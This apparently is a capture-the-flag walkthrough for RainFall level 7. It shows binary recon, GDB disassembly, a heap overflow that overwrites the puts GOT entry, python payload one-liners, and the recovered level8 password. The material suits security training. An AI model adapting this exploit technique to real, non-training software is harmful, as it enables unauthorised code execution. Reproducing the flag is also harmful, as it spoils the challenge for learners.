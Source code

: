 
# RainFall Walkthrough — Level 7 → Level 8

## Step 1 — Initial Recon

We start as **level7**:

We inspect the binary protections upon connecting:

```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level7/level7

```

This means:

-   **No RELRO** → GOT can be overwritten.
    
-   **No canary** → buffer overflows are possible.
    
-   **NX disabled** → shellcode injection possible.
    
-   **No PIE** → binary base address is fixed.
    

## Step 2 — First Execution Tests

Running the binary:

```bash
level7@RainFall:~$ ./level7
Segmentation fault (core dumped)

level7@RainFall:~$ ./level7 asdasdasd
Segmentation fault (core dumped)

level7@RainFall:~$ ./level7 asdasdasd asdasdasdasd
~~

```

The program crashes with **1 argument**, prints `~~` with **2 arguments**, and still behaves strangely with **3 arguments**. This suggests memory handling issues with the arguments.

## Step 3 — Disassembly in GDB

Open the binary in `gdb`:

```bash
gdb ./level7

```

List functions:

```bash
(gdb) info functions

```

We see:

-   `main` at `0x08048521`
    
-   A function `m` at `0x080484f4`
    

Disassembling `main` shows multiple calls to `malloc`, then two calls to `strcpy` that copy **argv[1]** and **argv[2]** into heap-allocated buffers.

At the end of `main`, the binary calls:

```c
fopen(".pass", "r");
fgets(buffer, 0x44, fp);
puts("~~");

```

So the program is clearly dealing with the **next level’s password file**.

## Step 4 — Global Variables

Inspecting variables:

```bash
(gdb) info variables
...
0x08049960  c

```

There’s a global variable `c` at `0x08049960`.

## Step 5 — Disassembling Function `m`

Disassembling `m`:

```asm
   0x08048501 <+13>:    call   0x80483d0 <time@plt>
   0x08048506 <+18>:    mov    $0x80486e0,%edx
   0x0804850b <+23>:    mov    %eax,0x8(%esp)
   0x0804850f <+27>:    movl   $0x8049960,0x4(%esp)
   0x08048517 <+35>:    mov    %edx,(%esp)
   0x0804851a <+38>:    call   0x80483b0 <printf@plt>

```

This function prints something based on time, but most importantly **it prints the value stored in c** ! Meaning we need `m()` executed.

## Step 6 — GOT Overwrite Attack

Since **RELRO is disabled**, we can overwrite a **GOT entry** (Global Offset Table). Looking at relocations:

```bash
objdump -R ./level7 | grep puts
08049928 R_386_JUMP_SLOT   puts

```

So `puts@GOT` is at **0x08049928**. If we overwrite this with the address of `m` (`0x080484f4`), any call to `puts` will instead execute `m()`.

## Step 7 — Crafting the Payload

We need two arguments:

-   **argv[1]** → long buffer overflow to reach and overwrite the return flow.
    
-   **argv[2]** → payload to overwrite GOT.
    

We build payloads:

```bash
python -c 'print "a" * 20 + "\x28\x99\x04\x08"' > /tmp/p1   # argv[1]
python -c 'print "\xf4\x84\x04\x08"' > /tmp/p2              # argv[2] (address of m)

```

Then run:

```bash
./level7 $(cat /tmp/p1) $(cat /tmp/p2)

```

## Step 8 — Success

The program prints:

```bash
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1756909538

```

That is the **password for level8**.

## Final Step — Verify

```bash
level7@RainFall:~$ su level8
Password: 5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9

```

We now have access to **level8**! 